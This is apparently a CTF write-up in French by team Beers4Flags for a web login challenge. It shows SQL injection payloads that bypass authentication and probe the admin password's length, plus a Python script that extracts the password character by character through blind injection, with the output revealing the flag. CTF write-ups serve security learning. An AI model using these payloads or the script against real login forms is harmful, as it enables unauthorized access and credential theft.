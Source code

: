 **Let's Login - Web - 150pts**

![Alt](img/login.png "Login")

__Résolution :__

On commence par tester un peut la robustesse du formulaire de login :
```
name =admin' OR 1=1 limit 1--
pass =toto
```
![Alt](img/sqli.png "SQLI")

On est bien arrivé à passer à travers l'authentification et on obtient cela :

![Alt](img/bypass.png "Bypass")

Il faut maintenant trouver la taille du mot de passe de l'administrateur :
```
name=admin' and length (pass)<25--
pass=toto
```

Si notre requête est juste, le serveur web nous renvoi la page contenant le nom des colonnes.

On fait cela jusqu'à obtenir la taille exact :
```
name=admin' and length (pass)=22--
pass=toto
```
Ensuite grâce à la fonction substring en sql et notre script on retrouve rapidement le mot de passe :

```PYTHON
import requests
import string

alphabet=string.printable
i=0 
flag=""
while i <= 22 :

  for lettre in alphabet :
    username="admin' and substr(pass,"+str(i)+",1)=char("+str(ord(lettre))+")--"
    identifiants={'name':username,'pass':"toto"}
    r=requests.post("https://login.problem.ctf.nw.fit.ac.jp/login.php", data = identifiants ,verify=True)
    if "Column name" in r.text :
      print "la bonne lettre est :"+str(lettre)
      flag+=str(lettre)
      break
  i+=1
  print flag


```

```
la bonne lettre est :u
FIT{9n89_y0u3u
la bonne lettre est :_
FIT{9n89_y0u3u_
la bonne lettre est :9
FIT{9n89_y0u3u_9
la bonne lettre est :a
FIT{9n89_y0u3u_9a
la bonne lettre est :8
FIT{9n89_y0u3u_9a8
la bonne lettre est :1
FIT{9n89_y0u3u_9a81
la bonne lettre est :1
FIT{9n89_y0u3u_9a811
la bonne lettre est :}
FIT{9n89_y0u3u_9a811}
```

By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
